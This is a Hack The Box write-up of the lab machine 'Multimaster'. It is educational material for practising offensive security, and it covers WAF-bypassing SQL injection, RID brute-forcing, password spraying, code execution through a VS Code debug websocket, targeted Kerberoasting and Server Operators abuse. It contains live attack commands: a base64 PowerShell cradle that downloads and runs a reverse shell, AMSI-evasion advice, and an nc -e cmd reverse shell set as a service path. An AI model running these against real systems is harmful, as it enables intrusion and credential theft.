This box is rated insane difficulty on HTB. It involves us discovering a search function on the website that is prone to SQL injection, which requires encoding our payloads to bypass a WAF in place. We also enumerate users by brute-forcing RIDs through the SQL injection in order to password spray against the domain. This grants us a shell on the DC where we discover that Visual Studio Code has been installed with debugging web sockets exposed. Exploiting these to get code execution lets us pivot users and leads to finding a SQL query containing a password inside of a custom site DLL. Using it to switch users, we find that they have _GenericWrite_ over another account which can be used to perform a targeted Kerberoasting attack. Finally, this user is apart of the Server Operators group with special privileges to restart and configure services, ultimately leading to a **SYSTEM** shell.

## Host Scanning
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP yields the typical AD ports.

```
└─$ sudo nmap -p53,80,88,135,139,389,445,464,593,636,1433,3268,3269,3389,5985,9389 -sCV 10.129.95.200 -oN fullscan-tcp 

Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-07 18:07 -0400
Nmap scan report for 10.129.95.200
Host is up (0.054s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-07 22:14:45Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds  Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGACORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
1433/tcp open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-info: 
|   10.129.95.200:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-05-07T22:11:17
|_Not valid after:  2056-05-07T22:11:17
|_ssl-date: 2026-05-07T22:14:59+00:00; +7m00s from scanner time.
| ms-sql-ntlm-info: 
|   10.129.95.200:1433: 
|     Target_Name: MEGACORP
|     NetBIOS_Domain_Name: MEGACORP
|     NetBIOS_Computer_Name: MULTIMASTER
|     DNS_Domain_Name: MEGACORP.LOCAL
|     DNS_Computer_Name: MULTIMASTER.MEGACORP.LOCAL
|     DNS_Tree_Name: MEGACORP.LOCAL
|_    Product_Version: 10.0.14393
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-05-07T22:14:59+00:00; +7m00s from scanner time.
| ssl-cert: Subject: commonName=MULTIMASTER.MEGACORP.LOCAL
| Not valid before: 2026-05-06T22:10:35
|_Not valid after:  2026-11-05T22:10:35
| rdp-ntlm-info: 
|   Target_Name: MEGACORP
|   NetBIOS_Domain_Name: MEGACORP
|   NetBIOS_Computer_Name: MULTIMASTER
|   DNS_Domain_Name: MEGACORP.LOCAL
|   DNS_Computer_Name: MULTIMASTER.MEGACORP.LOCAL
|   DNS_Tree_Name: MEGACORP.LOCAL
|   Product_Version: 10.0.14393
|_  System_Time: 2026-05-07T22:14:49+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: MULTIMASTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-05-07T22:14:52
|_  start_date: 2026-05-07T22:10:42
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 1h07m00s, deviation: 2h38m45s, median: 6m59s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: MULTIMASTER
|   NetBIOS computer name: MULTIMASTER\x00
|   Domain name: MEGACORP.LOCAL
|   Forest name: MEGACORP.LOCAL
|   FQDN: MULTIMASTER.MEGACORP.LOCAL
|_  System time: 2026-05-07T15:14:51-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.15 seconds
```

Looks like a Windows machine with Active Directory components installed on it, more specifically a Domain Controller. A few certificates leak the Fully Qualified Domain Name of `MULTIMASTER.MEGACORP.LOCAL` which I add to my `/etc/hosts` file. This machine has quite a few ports open, so I'll focus on SMB, HTTP, and LDAP for gathering information initially.

## Service Enumeration
Since there is a web server present, I fire up Ffuf to search for subdirectories and subdomains in the background before starting general service enumeration. Testing for Null/Guest authentication over SMB, RPC, and MSSQL all fail.

```
└─$ nxc smb multimaster.megacorp.local -u 'Guest' -p '' --shares

└─$ rpcclient multimaster.megacorp.local -U ''%''

└─$ impacket-mssqlclient -no-pass -windows-auth megacorp.local/guest@multimaster.megacorp.local
```



LDAP doesn't allow anonymous binds either, leaving us with only the web server.

```
└─$ ldapsearch -x -H ldap://multimaster.megacorp.local -b "dc=MEGACORP,dc=LOCAL" -s base "(objectClass=user)"
```



### Website
Checking out the landing page shows an employee hub for the organization. 



Attempting default credentials at the login panel shows that it's currently under maintenance, disallowing us to use it.



The site has a colleague finder function which allows us to search other people by providing a name. Interestingly, when providing bad characters like spaces or double quotes to the search bar, it still returns results even though the name appears to be invalid.



## SQL Injection
Thinking that this is querying a database and just has some weak filtering on it, I capture a request in Burp Suite. This reveals that we are making a POST request to the _getColleagues_ API, prompting me to start fuzzing for other endpoints and test this for vulnerabilities like SQL injection.



Leaving the field blank gives us plenty of JSON data for each user registered on the site. I save these to a file and extract their emails using [jq](https://jqlang.org/) in order to test for AS-REP Roasting.

```
└─$ jq -r '.[].email' users > validUsers.txt

└─$ impacket-GetNPUsers  -usersfile validUsers.txt -no-pass megacorp.local/ 
```



Unfortunately, this fails so I head back to exploiting the API. Using more common operators like UNION and OR both get sniped by the WAF in place, so we'll have to get creative. I quickly fuzz for which characters the firewall doesn't like with Ffuf, making sure to rate-limit as too many concurrent requests will temporarily ban us.

```
└─$ ffuf -u http://megacorp.local/api/getColleagues -w /opt/seclists/Fuzzing/special-chars.txt -d '{"name":"FUZZ"}' -H 'Content-Type: application/json;charset=utf-8' -t 1 --fc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://megacorp.local/api/getColleagues
 :: Wordlist         : FUZZ: /opt/seclists/Fuzzing/special-chars.txt
 :: Header           : Content-Type: application/json;charset=utf-8
 :: Data             : {"name":"FUZZ"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 1
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 200
________________________________________________

#                       [Status: 403, Size: 1233, Words: 73, Lines: 30, Duration: 70ms]
\                       [Status: 500, Size: 36, Words: 4, Lines: 1, Duration: 75ms]
'                       [Status: 403, Size: 1233, Words: 73, Lines: 30, Duration: 45ms]
"                       [Status: 500, Size: 36, Words: 4, Lines: 1, Duration: 45ms]
<                       [Status: 403, Size: 1233, Words: 73, Lines: 30, Duration: 47ms]
>                       [Status: 403, Size: 1233, Words: 73, Lines: 30, Duration: 49ms]
:: Progress: [32/32] :: Job [1/1] :: 26 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```

Looks like hashtags (`#`), single quotes(`'`), a lt and gt tags (`<>`) all get sniped by the WAF. The backslash is the escape character and double quotes break the JSON structure, so those should be fine to use as well.

### Unicode to Bypass WAF
A common way to bypass some of these WAF filters is to try different encoding types, such as Unicode or Hex.



I supply `\u27` (a single quote in Unicode) and the page responds with a 500 code, a strong indicator that this page is indeed injectable. Now that we've discovered the vulnerability and a method of bypass, I'll save this request to a file and use SQLmap to automate things since I don't have enough time to write my own script.

### Dumping DB
Luckily, [SQLmap](https://sqlmap.org/) supports the use of tamper scripts, which are Python-based modules used to modify, obfuscate, or encode our injection payloads. I'll be using the _charunicodeescape_ module to mimic the test from above. We'll also need to use the `--delay` flag to rate-limit our requests as to avoid the WAF detection.

```
└─$ sqlmap -r getColl.req --batch -level 5 -risk 3 --tamper=charunicodeescape --delay 5
```



The results confirm that it's injectable, meaning we can move to enumerating the databases present; Furthermore, stacked queries are allowed so we could easily do this manually.

```
└─$ sqlmap -r getColl.req --batch -level 5 -risk 3 --tamper=charunicodeescape --delay 5 --dbs
```



This returns only one non-standard database named _Hub_DB_. Next up is listing all available tables within it.

```
└─$ sqlmap -r getColl.req --batch -level 5 -risk 3 --tamper=charunicodeescape --delay 5 -D Hub_DB --tables
```



Colleagues most likely contains the data from the website search function, so I' dump the logins table.

```
└─$ sqlmap -r getColl.req --batch -level 5 -risk 3 --tamper=charunicodeescape --delay 5 -D Hub_DB -T Logins --dump
```



A little while later, we're rewarded with password hashes for users registered on the website. I'll copy this data chunk to a file, extract the password and username field respectively, then combine them to create a crackable wordlist.

```
└─$ awk '{print $4}' Sqlmap.out > fullhashes.txt

└─$ awk '{print $6}' Sqlmap.out > users.txt

└─$ paste -d ":" users.txt fullhashes.txt > combined.txt

└─$ cat combined.txt 
sbauer:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
okent:fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
ckane:68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
kpage:68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
shayna:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
james:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
cyork:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
rmartin:fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
zac:68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
jorden:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
alyx:fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
ilee:68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
nbourne:fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
zpowers:68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
aldom:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
minatotw:cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc
egre55:cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc
```

Sending it over to Hashcat in order to autodetect the mode shows that it could be one of four options.



Going down the list and using Hashcat's best66 rule to improve my odds eventually cracks three out of the seventeen.

```
└─$ hashcat --username -m 17900 -r /usr/share/hashcat/rules/best66.rule combined.txt /opt/seclists/rockyou.txt --force
```



Using these to perform a password spray across the domain over a few of the standard services all fail. Since the site's login is broken, we can't use them there and judging from the structure, the recovered passwords look like the defaults for each department. I'm hoping that if we could find more valid domain users, then one of these may just work.

### Brute-Forcing RIDs via SQLi
Only problem is that we still can't successfully authenticate to any service, so we'll have to do it through the SQL injection somehow. A bit of research led me to this awesome [blog post](https://keramas.github.io/2020/03/22/mssql-ad-enumeration.html) about how we could enumerate domain accounts by brute-forcing RIDs through MSSQL's sys database. The author, Keramas, created the [MSSQLi-duet](https://github.com/Keramas/mssqli-duet) tool which supports both the necessary encoding and time delay.

I'll use it along with our captured request from earlier to discover any hidden users on the domain, starting at RID 1000 since that's typically where the user accounts begin.

```
└─$ python3 mssqli-duet.py -i "testing'" -r colleague.req -p 'name' --rid_range 1000-1200 -e unicode -t 3
```



It takes a long time even with just a three second delay, but I eventually find three new accounts for Tushikikatomo, Andrew, and Lana. Repeating the password spray with these new users yields a successful login for the former account.

```
└─$ nxc smb multimaster.megacorp.local -u validUsers.txt -p recoveredPasswords.txt --continue-on-success
```



### Initial Foothold
This user is apart of the Remote Management group, meaning we can grab a shell over WinRM. Checking which SMB shares we have access to reveals read permissions for a non-standard dfs share and the presence of an `E:\` drive on the system.

```
└─$ nxc winrm multimaster.megacorp.local -u 'tushikikatomo' -p 'finance1'

└─$ nxc smb multimaster.megacorp.local -u 'tushikikatomo' -p 'finance1' --shares
```



Grabbing a shell with a tool like Evil-WinRM lets us grab the user flag from their Desktop folder and we can begin looking for ways to escalate privileges to Administrator.

```
└─$ evil-winrm -i multimaster.megacorp.local -u 'tushikikatomo' -p 'finance1'
```



## Privilege Escalation
Checking out the `E:\` drive just shows a few folders pertaining to different departments within the company. There's not much in most, but the IT's development directory denies us, so I keep it in mind in case we obtain these permissions later on.

```
PS> cd E:\

PS> dir -r
```



### Visual Studio Code
Whilst digging into the machine's program files, I found that Microsoft Visual Studio is installed. Inside the IDE's _PrivateAssemblies_ folder is an XML file for connectivity.

```
PS> dir "C:\Program Files (x86)\Microsoft Visual Studio 10.0\Common7\IDE\PrivateAssemblies"
```



Displaying this doesn't give us anything interesting, but since Visual Studio isn't usually commonplace and there was that development directory we couldn't access, I dig a bit further. This version isn't vulnerable to any service binary or DLL hijacking and we generally don't have too many permissions to use it.

### Mystery Ports
While doing my initial internal enumeration routine earlier, I noticed a strange TCP port open that was listening on localhost. Getting the process name through its PID revealed that it was Visual Code.

```
PS> netstat -ano | findstr 127.0.0.1
```



I knew it was running and figured maybe we might be able to do something with the processes memory, but upon checking again a new port opened for Visual Studio code again.



Curious as to what this was for, I took to ChatGPT in order to gather some information. It responded with a component about debugging and how some localhost listeners are used for developer tools and debugging endpoints.



This was really interesting since it could mean that one of the developers left a debug option enabled, allowing us to mess around with it. At this point, I got stuck for a while and looked towards other writeups to find how to exploit this part.

### Exploiting CEF Debug Web Sockets
It turns out that Electron and Chromium Embedded Framework (CEF) have a debugging option that opens up web sockets to interact with; This is what we are finding on the high-numbered TCP ports. Googling about the CEF debugging process leads me to finding a Github repository for the [cefdbug](https://github.com/taviso/cefdebug) tool, which checks for these open web sockets and provides options to get code execution.

I grab a precompiled binary from the releases page and upload it to the machine via Evil-WinRM's built-in features. 



Executing it without any flags searches for the sockets, eventually discovering two in my case. The Github repo explains that we can spawn a child process to execute arbitrary commands in the context of the user running the application. Simply uploading a Netcat binary or pre-made reverse shell will get blocked by the AV, so I'll create a web cradle for the machine to fetch a [PowerShell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) from and execute it.

The command we'll run from the debug socket is a base64 encoded payload, meaning we must convert it to UTF-16 LE format so Windows doesn't complain. I also add a new line to the script that will invoke the reverse shell as to reduce the size of my base64 blob. Consider removing all comments and changing any suspicious function names within the script to avoid AMSI detection, for example I swapped out Invoke-PowerShellTcp for a random string.

```
└─$ echo 'IEX(New-Object Net.WebClient).downloadString("http://10.10.14.243/revsh.ps1")' | iconv -t utf-16le | base64 -w 0; echo
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIANAAzAC8AcgBlAHYAcwBoAC4AcABzADEAIgApAAoA

└─$ tail revsh.ps1 
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.243 -Port 443

└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Make sure to setup a Netcat listener in a new terminal too.

```
└─$ rlwrap -cAr nc -lvnp 443
```

Now we just need to make sure our HTTP server is hosting our reverse shell, get a new web socket URL, and execute the PowerShell command on behalf of the person running the VS Code application.

_Note: These web sockets come and go relatively quick so we need to be speedy in the time between us discovering them and executing our payload._

```
PS> .\cefdebug.exe --code "process.mainModule.require('child_process').exec('powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIANAAzAC8AcgBlAHYAcwBoAC4AcABzADEAIgApAAoA')" --url ws://127.0.0.1:18645/f83a9a49-40da-46c5-9606-6c2db5b89726
```



### Password in Website DLL
We get a shell as the _cyork_ user, who doesn't have any special privileges, but is apart of a domain group named Developers.



Checking the Development folder of the IT directory on the `E:\` drive still blocks us, however we can now enumerate the web server's wwwroot directory, which was previously unavailable. There weren't any new credentials to be found in any configuration files, but I discovered a strange folder named Rosyln in /bin as well as a custom MultimasterAPI.dll.



A quick glance over the file reveals that it makes a query to the SQL database, looking for a user with a specific password.



By performing another password spray, including all the users listed on the `C:\` drive, we get valid authentication for _sbauer_.



We're able to login over WinRM as well.



### Targeted Kerberoasting
Some more enumeration of the filesystem and our current privileges doesn't disclose much, prompting me to upload [SharpHound](https://github.com/SpecterOps/SharpHound) to collect data and use [BloodHound](https://github.com/specterops/bloodhound) to map out any permissions we have over the domain.

Our current user has _GenericWrite_ permissions over Jorden, who is apart of the Server Operators group. We can abuse this to add a shadow credential or perform a targeted Kerberoasting attack in order to gain access to that account.

I proceed with the ladder option, using the [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) tool from ShutdownRepo to automate things. I'll also need to sync my machine's time with the Domain Controller's for Kerberos functionality. VMWare likes to override my time configurations, so I usually just stop both time-related daemons whenever doing these types of exploits.

```
--Stopping my machine's timsyncd processes--
$ sudo systemctl stop systemd-timesyncd
$ sudo systemctl disable systemd-timesyncd
$ sudo systemctl stop chronyd 2>/dev/null
$ sudo systemctl disable chronyd 2>/dev/null

--Set Clock skew to match the DC's--
$ sudo rdate -n multimaster.megacorp.local
```

Now we run the script and grab Jorden's KRB5TGS hash.

```
└─$ python3 targetedKerberoast.py -d 'megacorp.local' -u 'sbauer' -p 'D3veL0pM3nT!'
```



Sending it over to Hashcat or JohnTheRipper cracks almost instantly, allowing us to login as them.



### Abusing Server Operator Privileges
Since they are apart of the Server Operators group, we now have access to plenty of special privileges that can be abused to get a SYSTEM shell. 



I've covered **SeBackup** and **SeRestore** in other writeups, so I'll exploit the **SeShutdownPrivilege** to overwrite a service binary and have it execute a reverse shell instead. A bit of research on this group discloses the following information:

_A built-in group that exists only on domain controllers. By default, the group has no members. Server Operators can log on to a server interactively; create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer. -[Microsoft](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators)_

Looks pretty powerful, I'll utilize their ability to configure services to change the binary path of one to execute a Netcat reverse shell headed towards my machine. Enumerating service names was tricky but I eventually found that we had access to change the Browser's.

```
PS> sc.exe config browser binPath= 'C:\programdata\nc.exe 10.10.14.243 443 -e cmd'
[SC] ChangeServiceConfig SUCCESS
```

Now all we must do is restart the service and receive the connection with a Netcat listener.

```
PS> sc.exe stop browser

PS> sc.exe start browser
```



Finally, we can grab the last flag under the Administrator's Desktop folder to complete this challenge. Overall, this box was extremely difficult in terms of enumeration and exploiting all vulnerabilities. I learned a ton and definitely couldn't have done it without help, so thanks to [0xdf](https://0xdf.gitlab.io/) and [Ippsec](https://www.youtube.com/@ippsec) for their assistance to the community. I hope this was helpful to anyone following along or stuck and happy hacking!
